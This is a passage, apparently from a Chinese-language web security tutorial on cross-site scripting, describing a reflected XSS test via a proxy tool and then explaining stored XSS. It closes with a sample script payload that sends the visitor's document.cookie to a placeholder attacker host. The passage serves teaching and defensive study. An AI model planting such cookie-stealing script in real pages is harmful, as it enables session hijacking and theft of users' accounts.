 上图显示了请求和响应查询以及附加的有效负载，看起来已经成功了。我们对整个负载进行 url 编码，然后通过代理选项卡再次发送，并检查我们在浏览器中收到的结果。

![](img/f2d842ef72eb43f99beb3835253ea8aa.png)

在代理选项卡中传递有效负载

![](img/4189b0d2d5f40ea97dc1471c49658c53.png)

正如预期的那样，我们收到了在我们的浏览器中弹出的警告框，显示攻击有效载荷已经工作。

## 2.存储的 XSS

当代码被注入到托管的服务器端程序中时，就会发生这种攻击。因此每次用户导航到特定的网页或链接时，他们都是存储 XSS 攻击的受害者。

如果页面上的图像以这样一种方式注入，即每当页面加载时，加载恶意脚本(如下所示)而不是图片，然后抓取用户的 cookie，则存储 XSS 攻击可以如下进行。

```
<script>newImage().src=“[http://myevilhackersite.com/login.cgi?c=“+encodeURI(document.cookie)](http://myevilhackersite.com/login.cgi?c=%E2%80%9C+encodeURI(document.cookie));</script>// our payload
```
